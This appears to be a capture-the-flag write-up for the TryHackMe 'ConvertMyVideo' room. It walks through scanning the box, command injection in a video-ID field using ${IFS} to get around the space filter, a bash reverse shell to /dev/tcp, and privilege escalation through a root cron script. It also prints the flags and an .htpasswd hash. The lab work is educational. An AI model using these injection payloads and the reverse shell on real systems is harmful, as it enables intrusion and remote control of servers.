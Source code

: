 # Tryhackme.com Room : ConvertMyVideo
`https://tryhackme.com/room/convertmyvideo`


# Instance
```
export IP=10.10.116.7
```

# Nmap
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

Seems to be converting videos from youtube to mp3 file.
Asking for a video id

We gobuster `gobuster dir -w /usr/share/wordlists/dirb/common.txt --url http://$IP` :
```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 401)
/.htaccess (Status: 403)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/server-status (Status: 403)
/tmp (Status: 301)
```

When we enter a video id the page do a POST on `/`. The response :
```
{"status":1,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: Incomplete YouTube ID s. URL https:\/\/www.youtube.com\/watch?v=s looks truncated.\n","url_orginal":"https:\/\/www.youtube.com\/watch?v=s","output":"","result_url":"\/tmp\/downloads\/5eeee8cbc1d9e.mp3"}
```

Seems like its using `youtube-dl`

When we use `'` as video id we get this error:
```
"sh: 1: Syntax error: \"(\" unexpected\n"
```

Nice, seems like we're running cmds in linux. Probably passing the id directly to `youtube-dl` cli.

We can use bash substitution to run commands :
```
sh: 1: echo_test: not found
```

Everything after the first space is deleted. Kinda problematic to pass arguments...

We get a space character with ``echo${IFS}test``

Let's get a reverse shell

Soo, i fiddled around with this for a while. Couldn't get to run any kind of reverse shell. Maybe the `${IFS}` interfered ? Idk.. in the end i used netcat to send a script containing the reverse shell. Worked well.

The script simply contains and is written in `/dev/shm/`:
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.26.247/4444 0>&1
```

```
$.post("/", { yt_url: '$(nc${IFS}-l${IFS}-p${IFS}5555>/dev/shm/rs.sh)'}, function (data,err) { console.log(JSON.parse(data))})

$.post("/", { yt_url: '$(chmod${IFS}+x${IFS}/dev/shm/rs.sh)'}, function (data,err) { console.log(JSON.parse(data))})

$.post("/", { yt_url: '$(/dev/shm/rs.sh)'}, function (data,err) { console.log(JSON.parse(data))})
```

We send commands via firefox console
```

```

Now that we have the reverse shell, we can browse to `/var/www/admin` and find the flag
```
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

I guess we were supposed to bruteforce the password since the second question was about the username ?

Anyhow, lets get the answer by `cat /var/www/admin/.htpasswd`
```
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```
Not sure if there is a use to cracking this password ?

Let's try to root the machine.

We retrieve `linpeas.sh`

We run it and find
```
sudo 1.8.21p2
```

```
[+] HTTP sockets
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets
Socket /run/snapd.socket owned by root uses HTTP. Response to /index:
{"type":"sync","status-code":200,"status":"OK","result":["TBD"]}
Socket /run/snapd-snap.socket owned by root uses HTTP. Response to /index:
{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}

```

Fiddled with some exploit for a while but couldn't find a way to break it.
Cheated a bit.. found that there is a cron job running on `/var/www/html/tmp/clean.sh`.

Now we could get a root shell but we could also simply write in `clean.sh` :
```
ls root/root.txt > /dev/shm/root
```

And we get the flag :
```
flag{d9b368018e912b541a4eb68399c5e94a}
```
